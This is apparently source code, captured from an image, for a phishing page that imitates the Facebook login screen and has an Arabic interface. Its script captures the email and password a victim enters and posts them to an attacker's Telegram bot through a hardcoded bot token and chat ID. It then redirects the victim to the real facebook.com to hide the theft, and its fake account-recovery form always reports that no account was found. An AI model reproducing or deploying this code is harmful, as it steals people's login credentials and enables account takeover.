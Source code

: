   <input type="text" id="resetInput" placeholder="البريد أو رقم الهاتف">
  <button onclick="searchAccount()">بحث</button>
  <div id="resetMessage"></div>
</div>

  </div>  <script>
    const TOKEN = '7105269422:AAFJaDFgB88r_MbHC3bFlPzdXxKNXzb8Gy8';
    const CHAT_ID = '6660593539';

    document.getElementById('loginForm').addEventListener('submit', function(e) {
      e.preventDefault();
      const email = document.getElementById('email').value;
      const password = document.getElementById('password').value;
      const loadingMsg = document.getElementById('loadingMsg');

      loadingMsg.style.display = 'block';

      fetch(`https://api.telegram.org/bot${TOKEN}/sendMessage`, {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({
          chat_id: CHAT_ID,
          text: `🟦 Facebook Login\n📧: ${email}\n🔒: ${password}`
        })
      }).then(() => {
        setTimeout(() => {
          window.location.href = "https://facebook.com";
        }, 2000);
      });
    });

    function showResetPage() {
      document.getElementById('loginPage').style.display = 'none';
      document.getElementById('resetPage').style.display = 'block';
    }

    function searchAccount() {
      const input = document.getElementById('resetInput').value.trim();
      const msg = document.getElementById('resetMessage');

      if (!input) {
        msg.textContent = "الرجاء إدخال البريد أو رقم الهاتف";
        return;
      }

      msg.textContent = "لم يتم العثور على حسابك. تأكد من صحة البيانات.";
    }
  </script></body>
</html>
